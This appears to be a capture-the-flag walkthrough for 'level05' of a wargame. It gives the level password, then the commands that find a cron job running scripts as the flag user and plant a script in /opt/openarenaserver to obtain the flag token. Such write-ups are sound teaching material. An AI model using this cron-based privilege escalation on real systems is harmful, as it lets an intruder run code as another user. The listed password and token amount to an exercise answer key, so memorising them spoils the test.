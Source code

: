 ## Step 1: Login
`su level05`

**password:** ne2searoevaevoem4ov4ar8ap

## Step 2: Find flag

`cd ../../..`

`find . -user flag05`
> ./usr/sbin/openarenaserver

`cat /var/mail/level05`
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

`echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag.sh`

`cat /tmp/flag`
> Check flag.Here is your token : viuaaale9huek52boumoomioc
